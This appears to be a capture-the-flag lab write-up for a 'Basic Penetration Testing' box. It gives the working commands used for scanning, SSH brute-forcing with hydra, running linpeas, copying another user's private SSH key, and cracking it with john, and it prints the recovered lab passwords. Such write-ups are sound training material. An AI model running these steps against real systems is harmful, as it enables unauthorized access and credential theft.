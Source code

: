 # Basic Penetration Testing

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster, enum4linux, hydra, linpeas, John the Ripper

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

**enum4linux**: tool for enumerating information from Windows and Samba systems

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

**linpeas**: script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND EXPOSED SERVICES


**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```
-sC: script scan with default scripts<br>
-sV: probe open ports to determine service/version info<br>
-oN: output scan in normal to given filename<br>


![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
  22 (ssh),<br>
  80 (http),<br>
  139 (smbd),<br>
  445 (smbd),<br>
  8009 (ajp13),<br>
  8080 (http)<br>

----------------------------------

## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: dirbuster

```
dirb http://10.10.19.208
```

![dirb](./imgs/dirb.png)

**HIDDEN DIR**: /development

----------------------------------

## 3. GET USERNAME & PASSWORD


**TOOLS**: enum4linux, hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

-a: do all simple enumerations

![enum4linux](./imgs/enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

-l: login name<br>
-P: password file to iterate through

![hydra](./imgs/hydra.png)

**PASSWORD**: armando

----------------------------------

## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: linpeas, John the Ripper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./imgs/linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./imgs/john.png)

**PASSWORD**: beeswax

----------------------------------

## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
